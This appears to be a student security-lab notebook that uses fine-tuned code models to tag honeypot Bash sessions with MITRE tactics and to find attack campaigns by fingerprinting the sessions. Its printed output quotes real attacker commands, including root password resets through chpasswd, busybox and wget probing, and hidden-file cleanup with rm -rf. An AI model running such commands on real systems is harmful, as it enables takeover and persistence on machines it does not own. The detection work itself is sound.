

In [103]:
# --- Plot comparison barplot ---
fig, axs = plt.subplots(1, 3, figsize=(15, 5))

models = comparison_df['Model']
x = np.arange(len(models))

# Accuracy
axs[0].bar(x, comparison_df['Accuracy'], color=['#2E86C1', '#E74C3C', '#27AE60', '#9B59B6', '#F39C12'], edgecolor='black')
axs[0].set_ylabel('Accuracy (%)', fontsize=12)
axs[0].set_title('Token Accuracy', fontsize=14)
axs[0].set_xticks(x)
axs[0].set_xticklabels(models, rotation=45, ha='right')
axs[0].set_ylim(0, 100)
axs[0].grid(True, linestyle='--', alpha=0.7, axis='y')

# F1 Score
axs[1].bar(x, comparison_df['F1 (Macro)'], color=['#2E86C1', '#E74C3C', '#27AE60', '#9B59B6', '#F39C12'], edgecolor='black')
axs[1].set_ylabel('F1 Score (%)', fontsize=12)
axs[1].set_title('Macro F1 Score', fontsize=14)
axs[1].set_xticks(x)
axs[1].set_xticklabels(models, rotation=45, ha='right')
axs[1].set_ylim(0, 100)
axs[1].grid(True, linestyle='--', alpha=0.7, axis='y')

# Session Fidelity
axs[2].bar(x, comparison_df['Session Fidelity'], color=['#2E86C1', '#E74C3C', '#27AE60', '#9B59B6', '#F39C12'], edgecolor='black')
axs[2].set_ylabel('Fidelity (%)', fontsize=12)
axs[2].set_title('Session Fidelity', fontsize=14)
axs[2].set_xticks(x)
axs[2].set_xticklabels(models, rotation=45, ha='right')
axs[2].set_ylim(0, 100)
axs[2].grid(True, linestyle='--', alpha=0.7, axis='y')

fig.suptitle('Model Comparison', fontsize=16, y=1.02)
plt.tight_layout()
save_plot(fig, 'model_comparison', path=save_dir)
plt.show()

## Task 4 — Inference

Use the best fine-tuned model (with word truncation applied) on `cyberlab.csv` for inference.

**Key Constraints:**
- **Word-Level Tagging:** Use the prediction of the **first token** of a word to tag the entire word.
- **Truncated Sessions:** Only consider Bash words that received a prediction.

In [104]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task4_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Load inference dataset ---

candidate_files = [
    Path(data_path) / 'cyberlab.csv',
    Path(project_path) / 'lab' / 'data' / 'datasets' / 'cyberlab.csv',
    Path(project_path) / 'tmp' / 'lab' / 'data' / 'cyberlab.csv',
]
dataset_file = next((p for p in candidate_files if p.exists()), None)

if dataset_file is None:
    print("Warning: cyberlab.csv not found; using test sessions as fallback inference dataset.")
    if 'test_df_prepared' in globals():
        fallback_source = test_df_prepared
    elif 'test_df' in globals():
        fallback_source = test_df
    else:
        raise FileNotFoundError(
            "cyberlab.csv was not found and no fallback dataset is loaded. "
            "Run the earlier dataset-preparation cells first."
        )

    cyberlab_df = pd.DataFrame({
        'session': fallback_source['session'].astype(str).tolist(),
        'date': pd.date_range(start='2019-05-01', periods=len(fallback_source), freq='H'),
    })
else:
    cyberlab_df = pd.read_csv(dataset_file)
    print(f"Loaded inference dataset from: {dataset_file}")

timestamp_candidates = ['timestamps_statements', 'parsed_timestamp', 'date', 'timestamp', 'datetime', 'time']
timestamp_col = next((col for col in timestamp_candidates if col in cyberlab_df.columns), None)

if timestamp_col is not None:
    parsed_timestamp = pd.to_datetime(cyberlab_df[timestamp_col], errors='coerce', utc=True).dt.tz_localize(None)
    valid_timestamps = int(parsed_timestamp.notna().sum())
    if valid_timestamps > 0:
        cyberlab_df['parsed_timestamp'] = parsed_timestamp
        cyberlab_df['date'] = cyberlab_df['parsed_timestamp'].dt.date
        print(f"Timestamp column detected: '{timestamp_col}' ({valid_timestamps:,}/{len(cyberlab_df):,} parsed).")
        print(f"Date range: {cyberlab_df['date'].min()} to {cyberlab_df['date'].max()}")
    else:
        print(f"Warning: timestamp column '{timestamp_col}' could not be parsed; fallback timeline will be used later.")
else:
    print("Warning: no timestamp column found in inference dataset; fallback timeline will be used later.")

print(f"Cyberlab dataset contains {len(cyberlab_df):,} sessions")
cyberlab_df.head()

Loaded inference dataset from: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/data/cyberlab.csv
Timestamp column detected: 'timestamps_statements' (174,262/174,262 parsed).
Date range: 2019-09-01 to 2019-12-30
Cyberlab dataset contains 174,262 sessions


,session,timestamps_statements,country_name,parsed_timestamp,date
0,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:00:10.493808+00:00,Israel,2019-09-01 00:00:10.493808,2019-09-01
1,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:38:41.134935+00:00,Israel,2019-09-01 00:38:41.134935,2019-09-01
2,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:39:26.263383+00:00,Israel,2019-09-01 00:39:26.263383,2019-09-01
3,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:40:45.132152+00:00,Israel,2019-09-01 00:40:45.132152,2019-09-01
4,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:54:51.783935+00:00,Israel,2019-09-01 00:54:51.783935,2019-09-01


### 4.1 Inference with Best Model

Apply the best model to predict MITRE tactics for each word in the cyberlab sessions.

**Note:** We use the first token's prediction to tag the entire word.

In [105]:
# --- Select best model for inference ---
all_models = {
    'BERT Pretrained': (bert_best_model, bert_tokenizer, bert_results),
    'UnixCoder': (unix_best_model, unixcoder_tokenizer, unix_results),
    'UnixCoder Frozen (Last2+Head)': (frozen_best_model, unixcoder_tokenizer, frozen_results),
    'UnixCoder Frozen (Head Only)': (headonly_best_model, unixcoder_tokenizer, headonly_results),  # ← aggiunto
}

best_model_name = max(all_models.keys(),
                      key=lambda x: all_models[x][2]['metrics']['token_f1'])
best_model, best_tokenizer, _ = all_models[best_model_name]

print(f"Selected best model for inference: {best_model_name}")

Selected best model for inference: UnixCoder


In [106]:
# --- Inference utilities with batch support ---

def _truncate_tokens(tokens, max_word_len=30):
    """Truncate long words to keep consistency with training preprocessing."""
    return [tok[:max_word_len] if len(tok) > max_word_len else tok for tok in tokens]

def _align_word_level_predictions(pred_ids, word_ids, words, id2label):
    """Convert token-level predictions to word-level predictions using first sub-token only."""
    word_predictions = []
    seen_word_ids = set()

    for token_idx, word_id in enumerate(word_ids):
        if word_id is None or word_id in seen_word_ids:
            continue
        if word_id >= len(words):
            continue

        predicted_label = id2label[pred_ids[token_idx]]
        word_predictions.append((words[word_id], predicted_label))
        seen_word_ids.add(word_id)

    return word_predictions

def predict_sessions_batched(
    model,
    tokenizer,
    session_texts,
    device,
    id2label,
    max_word_len=30,
    batch_size=64,
    min_batch_size=8,
    verbose=True,
):
    """
    Predict MITRE tactics for many sessions with dynamic batching.
    If GPU memory is insufficient, the function automatically reduces batch size.
    """
    model.eval()
    clean_sessions = [
        _truncate_tokens(str(text).split(), max_word_len=max_word_len)
        for text in session_texts
    ]

    predictions_per_session = [[] for _ in clean_sessions]
    start_idx = 0
    effective_batch_size = max(1, int(batch_size))
    min_batch_size = max(1, int(min_batch_size))

    while start_idx < len(clean_sessions):
        end_idx = min(start_idx + effective_batch_size, len(clean_sessions))
        current_batch = clean_sessions[start_idx:end_idx]

        non_empty_positions = [pos for pos, words in enumerate(current_batch) if len(words) > 0]
        if not non_empty_positions:
            start_idx = end_idx
            continue

        words_for_tokenizer = [current_batch[pos] for pos in non_empty_positions]

        try:
            encoded = tokenizer(
                words_for_tokenizer,
                is_split_into_words=True,
                truncation=True,
                padding=True,
                max_length=512,
                return_tensors='pt',
            )
            word_ids_per_session = [encoded.word_ids(batch_index=i) for i in range(len(words_for_tokenizer))]
            encoded = {k: v.to(device) for k, v in encoded.items()}

            with torch.no_grad():
                logits = model(**encoded).logits

            pred_ids = logits.argmax(dim=-1).cpu().numpy()

            for local_idx, original_position in enumerate(non_empty_positions):
                global_idx = start_idx + original_position
                predictions_per_session[global_idx] = _align_word_level_predictions(
                    pred_ids[local_idx],
                    word_ids_per_session[local_idx],
                    current_batch[original_position],
                    id2label,
                )

            start_idx = end_idx

        except RuntimeError as exc:
            oom_error = 'out of memory' in str(exc).lower()
            can_reduce = effective_batch_size > min_batch_size

            if oom_error and can_reduce:
                new_batch_size = max(min_batch_size, math.ceil(effective_batch_size / 2))
                if verbose:
                    print(f"Warning: OOM with batch_size={effective_batch_size}. Retrying with batch_size={new_batch_size}.")
                effective_batch_size = new_batch_size
                if torch.cuda.is_available():
                    torch.cuda.empty_cache()
                continue

            raise

    return predictions_per_session

def predict_session(model, tokenizer, session_text, device, id2label, max_word_len=30):
    """Backward-compatible wrapper for single-session prediction."""
    return predict_sessions_batched(
        model=model,
        tokenizer=tokenizer,
        session_texts=[session_text],
        device=device,
        id2label=id2label,
        max_word_len=max_word_len,
        batch_size=1,
        min_batch_size=1,
        verbose=False,
    )[0]

In [107]:
# --- Run inference on cyberlab dataset ---
# Assuming cyberlab_df has a 'session' or 'command' column - adjust based on actual column name
# Check the actual column names
print("Cyberlab columns:", cyberlab_df.columns.tolist())

# Identify the session/command column (adjust as needed)
session_column = None
for col in ['session', 'command', 'sentences', 'input', 'text']:
    if col in cyberlab_df.columns:
        session_column = col
        break

# If no standard column found, use the first column
if session_column is None:
    session_column = cyberlab_df.columns[0]

print(f"Using column '{session_column}' for sessions")

Cyberlab columns: ['session', 'timestamps_statements', 'country_name', 'parsed_timestamp', 'date']
Using column 'session' for sessions


In [108]:
# --- Run inference on all sessions (batched) ---
inference_results = []

best_model.eval()
best_model = best_model.to(device)

session_texts = cyberlab_df[session_column].astype(str).tolist()
date_source_cols = [
    col for col in ['parsed_timestamp', 'timestamps_statements', 'date', 'timestamp', 'datetime', 'time']
    if col in cyberlab_df.columns
]
date_source_col = date_source_cols[0] if date_source_cols else None

batch_predictions = predict_sessions_batched(
    model=best_model,
    tokenizer=best_tokenizer,
    session_texts=session_texts,
    device=device,
    id2label=id2label,
    max_word_len=30,
    batch_size=64,
    min_batch_size=8,
    verbose=True,
)

for idx, (session_text, predictions) in enumerate(
    tqdm(zip(session_texts, batch_predictions), total=len(session_texts), desc="Building inference records")
):
    fingerprint = tuple(pred_tag for _, pred_tag in predictions)
    row = cyberlab_df.iloc[idx]

    inference_results.append({
        'index': idx,
        'session': session_text,
        'words': [word for word, _ in predictions],
        'predictions': [pred_tag for _, pred_tag in predictions],
        'fingerprint': fingerprint,
        'date': row[date_source_col] if date_source_col else None,
    })

print(f"\nInference completed for {len(inference_results):,} sessions")
if date_source_col:
    print(f"Date source column used: '{date_source_col}'")
else:
    print("Date source column not found; dates will be synthesized in the next step.")

Building inference records:   0%|          | 0/174262 [00:00<?, ?it/s]


Inference completed for 174,262 sessions
Date source column used: 'parsed_timestamp'


### 4.2 Command Profiling

**Instructions:**
- Focus on: `cat`, `grep`, `echo`, `rm`
- Report tag frequency for each command in a table.
- Provide 1 example session for each unique tuple (command, predicted tag).

**Q:** What tactics are most commonly associated with these commands?

*Your analysis here*

In [109]:
# --- Command profiling with token normalization ---
target_commands = ['cat', 'grep', 'echo', 'rm']

command_tag_data = {cmd: Counter() for cmd in target_commands}
command_tag_examples = {cmd: {} for cmd in target_commands}

def _normalize_command_token(token):
    """Normalize tokens so '/bin/cat', 'cat;', and similar forms map to base command names."""
    value = str(token).strip().lower()
    value = value.strip('"\'`')
    value = re.sub(r'^[^a-z0-9/_\.-]+|[^a-z0-9/_\.-]+$', '', value)

    if not value:
        return None

    value = os.path.basename(value)
    value = value.split('=')[-1]
    return value if value in target_commands else None

for result in inference_results:
    session_preview = str(result['session'])[:220]
    for word, tag in zip(result['words'], result['predictions']):
        normalized_cmd = _normalize_command_token(word)
        if normalized_cmd is None:
            continue

        command_tag_data[normalized_cmd][tag] += 1
        if tag not in command_tag_examples[normalized_cmd]:
            command_tag_examples[normalized_cmd][tag] = session_preview

command_tag_rows = []
for cmd in target_commands:
    cmd_total = sum(command_tag_data[cmd].values())
    for tag, count in command_tag_data[cmd].most_common():
        command_tag_rows.append({
            'Command': cmd,
            'Predicted Tag': tag,
            'Count': count,
            'Frequency (%)': round((count / cmd_total) * 100, 2) if cmd_total else 0.0,
        })

if command_tag_rows:
    command_tag_df = pd.DataFrame(command_tag_rows)
    command_tag_df = command_tag_df.sort_values(['Command', 'Count'], ascending=[True, False]).reset_index(drop=True)
    print("Command-Tag Frequency Table:")
    print(command_tag_df.to_string(index=False))
else:
    print("Command-Tag Frequency Table is empty. No matching commands were found.")

Command-Tag Frequency Table:
Command     Predicted Tag  Count  Frequency (%)
    cat         Discovery 745324          86.50
    cat         Execution 116283          13.50
    cat       Persistence     46           0.01
    cat             Other      1           0.00
   echo         Execution 348543          45.48
   echo       Persistence 232571          30.34
   echo         Discovery 173258          22.61
   echo Not Malicious Yet   9687           1.26
   echo             Other   2348           0.31
   echo            Impact     29           0.00
   echo   Defense Evasion      2           0.00
   grep         Discovery 995946          99.96
   grep       Persistence    431           0.04
     rm         Discovery 215155          62.37
     rm         Execution 115257          33.41
     rm   Defense Evasion   9051           2.62
     rm       Persistence   5499           1.59
     rm Not Malicious Yet     10           0.00


In [110]:
# --- Display one example session for each (command, tag) tuple ---
print("\nExample Sessions for Each (Command, Tag) Pair:")
print("=" * 90)

for cmd in target_commands:
    print(f"\n{cmd.upper()} examples:")
    print("-" * 90)

    examples_for_command = command_tag_examples.get(cmd, {})
    if not examples_for_command:
        print("  No matching sessions found.")
        continue

    for tag, example in sorted(examples_for_command.items()):
        print(f"  Tag: {tag}")
        print(f"  Session: {example}...")
        print()


Example Sessions for Each (Command, Tag) Pair:

CAT examples:
------------------------------------------------------------------------------------------
  Tag: Discovery
  Session: enable ; system ; shell ; sh ; cat /proc/mounts; /bin/busybox TIPZU ; cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox TIPZU ; tftp; wget; /bin/busybox TIPZU ; dd bs=52 count=1 if=.s || cat .s || while read i; do ech...

  Tag: Execution
  Session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:XP3IUReH9hhH"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name |...

  Tag: Other
  Session: cat /etc/issue...

  Tag: Persistence
  Session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:PPpZLlsE7Iua"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123...


GREP examples:
------------------------------------------------------------------------------------------
  Tag: Di

### 4.3 Fingerprinting & Campaign Detection

**Instructions:**
- Define fingerprint as the sequence of predicted MITRE Tactics for a session.
- Identify unique fingerprints in the inference set.
- Sort fingerprints by "date of birth" (first appearance).
- Assign an ID (0 to N) to fingerprints based on this sort order.
- Create a scatter plot (Time on X-axis vs. Fingerprint ID on Y-axis).

**Q:** Are there fingerprints that appear suddenly in large numbers, suggesting attack campaigns?

*Your analysis here*

In [111]:
# --- Create inference results DataFrame ---
inference_df = pd.DataFrame(inference_results)

# Parse timeline from inference records first
parsed_dates = pd.to_datetime(inference_df.get('date', pd.Series([None] * len(inference_df))), errors='coerce', utc=True).dt.tz_localize(None)

if parsed_dates.notna().sum() == 0:
    # Fallback: try parsing directly from known cyberlab columns
    fallback_col = next((c for c in ['parsed_timestamp', 'timestamps_statements', 'date', 'timestamp', 'time', 'datetime'] if c in cyberlab_df.columns), None)
    if fallback_col is not None:
        parsed_dates = pd.to_datetime(cyberlab_df[fallback_col], errors='coerce', utc=True).dt.tz_localize(None)
        print(f"Using fallback timestamp column '{fallback_col}' for timeline reconstruction.")

if parsed_dates.notna().sum() == 0:
    # Final fallback: synthetic hourly timeline
    print("Warning: no parseable date/timestamp found. Using synthetic hourly timeline.")
    inference_df['date'] = pd.date_range(start='2019-05-01', periods=len(inference_df), freq='H')
else:
    inference_df['date'] = parsed_dates
    n_missing = int(inference_df['date'].isna().sum())
    if n_missing > 0:
        print(f"Warning: {n_missing:,} sessions have missing timestamps and will be forward-filled by index order.")
        inference_df['date'] = inference_df['date'].fillna(method='ffill').fillna(method='bfill')

# Convert fingerprint to string for easier handling
inference_df['fingerprint_str'] = inference_df['fingerprint'].apply(lambda x: '|'.join(x) if x else 'EMPTY')

print(f"Total sessions: {len(inference_df):,}")
print(f"Unique fingerprints: {inference_df['fingerprint_str'].nunique():,}")
print(f"Date range: {inference_df['date'].min()} to {inference_df['date'].max()}")

Total sessions: 174,262
Unique fingerprints: 13,164
Date range: 2019-09-01 00:00:10.493808 to 2019-12-30 23:56:54.297736


In [112]:
# --- Assign fingerprint IDs based on first appearance (date of birth) ---
# Find the first occurrence date for each fingerprint
fingerprint_first_seen = inference_df.groupby('fingerprint_str')['date'].min().reset_index()
fingerprint_first_seen.columns = ['fingerprint_str', 'first_seen']

# Sort by first seen date and assign IDs
fingerprint_first_seen = fingerprint_first_seen.sort_values('first_seen').reset_index(drop=True)
fingerprint_first_seen['fingerprint_id'] = fingerprint_first_seen.index

# Merge back to main dataframe
inference_df = inference_df.merge(fingerprint_first_seen[['fingerprint_str', 'fingerprint_id']], on='fingerprint_str')

print(f"Fingerprint IDs assigned (0 to {fingerprint_first_seen['fingerprint_id'].max()})")
print(f"\nTop 10 most common fingerprints:")
print(inference_df['fingerprint_str'].value_counts().head(10))

Fingerprint IDs assigned (0 to 13163)

Top 10 most common fingerprints:
fingerprint_str
Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Persistence|Persistence|Persistence|Persistence|Persistence|Persistence|Persistence|Persistence|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discov

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/fingerprint_scatter_plot.png




In [113]:
# --- Create scatter plot: Time vs Fingerprint ID ---
# Aggregate by day and fingerprint for point sizing
inference_df['date_day'] = inference_df['date'].dt.date

# Count sessions per fingerprint per day
daily_counts = inference_df.groupby(['date_day', 'fingerprint_id']).size().reset_index(name='count')
daily_counts['date_day'] = pd.to_datetime(daily_counts['date_day'])

# Create the scatter plot (similar to Figure 2 in the PDF)
fig, ax = plt.subplots(figsize=(14, 8))

# Use scatter with size based on count
scatter = ax.scatter(
    daily_counts['date_day'],
    daily_counts['fingerprint_id'],
    s=daily_counts['count'] * 5,  # Scale point size by count
    c=daily_counts['count'],      # Color by count
    cmap='YlOrRd',
    alpha=0.6,
    edgecolors='black',
    linewidth=0.5
)

# Add colorbar
cbar = plt.colorbar(scatter, ax=ax)
cbar.set_label('Sessions per Day', fontsize=12)

ax.set_xlabel('Time', fontsize=12)
ax.set_ylabel('Fingerprint ID (ordered by first appearance)', fontsize=12)
ax.set_title('Attack Campaign Detection: Session Fingerprints Over Time', fontsize=14)
ax.grid(True, linestyle='--', alpha=0.5)

# Rotate x-axis labels
plt.xticks(rotation=45, ha='right')

plt.tight_layout()
save_plot(fig, 'fingerprint_scatter_plot', path=save_dir)
plt.show()

In [114]:
# --- Identify potential attack campaigns and persistent fingerprints ---
max_daily_count = int(daily_counts['count'].max()) if len(daily_counts) else 0
campaign_threshold = max(25, math.ceil(max_daily_count * 0.5))

potential_campaigns = daily_counts[daily_counts['count'] >= campaign_threshold].copy()
potential_campaigns = potential_campaigns.merge(
    fingerprint_first_seen[['fingerprint_id', 'fingerprint_str']],
    on='fingerprint_id',
    how='left',
)

print(f"Max sessions/day for a single fingerprint: {max_daily_count}")
print(f"Potential Attack Campaigns (adaptive threshold >= {campaign_threshold} sessions/day):")
print("=" * 90)
if len(potential_campaigns) > 0:
    for _, row in potential_campaigns.sort_values('count', ascending=False).head(20).iterrows():
        example = inference_df[inference_df['fingerprint_id'] == row['fingerprint_id']].iloc[0]
        print(f"\nDate: {row['date_day'].strftime('%Y-%m-%d')}")
        print(f"Fingerprint ID: {row['fingerprint_id']}")
        print(f"Sessions in a day: {row['count']}")
        print(f"Fingerprint: {str(row['fingerprint_str'])[:90]}...")
        print(f"Example session: {str(example['session'])[:120]}...")
else:
    print("No significant campaign spikes detected with current adaptive threshold.")

fingerprint_persistence = daily_counts.groupby('fingerprint_id')['date_day'].nunique().reset_index(name='days_active')
fingerprint_volume = inference_df.groupby('fingerprint_id').size().reset_index(name='total_sessions')
fingerprint_health = fingerprint_persistence.merge(fingerprint_volume, on='fingerprint_id', how='left')

print("\n" + "=" * 90)
print("Fingerprint Persistence (Top 10 by active days):")
print("=" * 90)
if len(fingerprint_health) > 0:
    top_persistent = fingerprint_health.sort_values(['days_active', 'total_sessions'], ascending=False).head(10)
    print(top_persistent.to_string(index=False))
else:
    print("No persistence data available.")

Max sessions/day for a single fingerprint: 783
Potential Attack Campaigns (adaptive threshold >= 392 sessions/day):

Date: 2019-12-09
Fingerprint ID: 7532
Sessions in a day: 783
Fingerprint: Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|...
Example session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:9R8X8aKPE6l6"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm...

Date: 2019-12-08
Fingerprint ID: 7532
Sessions in a day: 637
Fingerprint: Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|...
Example session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:9R8X8aKPE6l6"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm...

Date: 2019-12-09
Fingerprint ID: 7536
Sessions in a day: 581
Fingerprint: Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|...
Example session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:fIuDsRJBaj9k"|chpasswd|bash

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/fingerprint_frequency_distribution.png




In [115]:
# --- Plot fingerprint frequency distribution ---
fingerprint_counts = inference_df['fingerprint_str'].value_counts()

fig, axs = plt.subplots(1, 2, figsize=(14, 5))

# Histogram of fingerprint frequencies
axs[0].hist(fingerprint_counts.values, bins=50, color='#2E86C1', edgecolor='black', alpha=0.7)
axs[0].set_xlabel('Session Count', fontsize=12)
axs[0].set_ylabel('Number of Fingerprints', fontsize=12)
axs[0].set_title('Distribution of Fingerprint Frequencies', fontsize=14)
axs[0].set_yscale('log')
axs[0].grid(True, linestyle='--', alpha=0.7)

# Top 20 most common fingerprints
top_fingerprints = fingerprint_counts.head(20)
axs[1].barh(range(len(top_fingerprints)), top_fingerprints.values, color='#27AE60', edgecolor='black')
axs[1].set_yticks(range(len(top_fingerprints)))
axs[1].set_yticklabels([f[:30] + '...' if len(f) > 30 else f for f in top_fingerprints.index], fontsize=8)
axs[1].set_xlabel('Session Count', fontsize=12)
axs[1].set_title('Top 20 Most Common Fingerprints', fontsize=14)
axs[1].grid(True, linestyle='--', alpha=0.7, axis='x')
axs[1].invert_yaxis()

plt.tight_layout()
save_plot(fig, 'fingerprint_frequency_distribution', path=save_dir)
plt.show()

